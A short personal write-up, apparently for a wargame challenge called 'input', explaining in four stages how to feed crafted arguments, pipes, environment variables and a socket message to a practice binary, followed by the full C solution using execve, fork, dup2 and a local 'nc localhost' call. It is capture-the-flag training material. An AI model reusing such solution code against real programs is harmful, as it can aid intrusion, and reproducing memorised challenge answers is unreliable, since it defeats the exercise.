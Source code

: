 ### Input

#### Magic C code (my first expoit in c .... it has a reason  )

This ques was pretty good ....

Stage 1 : command line argument

1) i learnt that command line argumnets are arry of char pointers (char *argv[100]) i.e hold array of strings  
2) python and pwntools wasunable to pass "\x00" null char as cli , but we can use execve func in c to set this

stage 2 : stdio 

1) after executing execve i was unable to pass input to stdio
2) it was expecting input fron stderr too 
3) then c pipes came in handy 
4) you have to map stdin,stderr to pipe stdin 
5) fork a child and execve there and in parent process wrtie data into the pipe

stage 3 : env

in same maner as 1 us can pass env var via execve call


stage 4 : socket

use system cmd to pass value to socket

```
#include <unistd.h>
#include<stdio.h>
#include<stdlib.h>

void main()
{

char *argv[101] = {[0 ... 98]="\x00"};  
char *env[2]={"\xde\xad\xbe\xef=\xca\xfe\xba\xbe"};  					
argv['A'] = "\x00";  
argv['B'] = "\x20\x0a\x0d"; 
argv['C'] = "12345" ;
argv[99] = "\x00" ;
//execve("./test", argv,NULL);


	FILE *fp = fopen("\x0a", "w");
	fwrite("\x00\x00\x00\x00", sizeof(char), 4, fp);
	fclose(fp);

	fp = fopen("deadbeef", "w");
	fwrite("\xde\xad\xbe\xef", sizeof(char), 4, fp);
	fclose(fp);

	int p0[2], p1[2];
	pipe(p0);
	pipe(p1);

	pid_t pid;
	if ((pid = fork()) == -1) {
		puts("fork fail");
		
	}

	if (pid == 0) {
		//child
		

		//redirect pipe
		dup2(p0[0], 0);
		dup2(p1[0], 2);
	

		execve("./input", argv, env);
	} 
        
        else {
		//parent
		

		write(p0[1], "\x00\x0a\x00\xff", 4);
		write(p1[1], "\x00\x0a\x02\xff", 4);

		system("cat deadbeef | nc localhost 12345");
	}



}

```
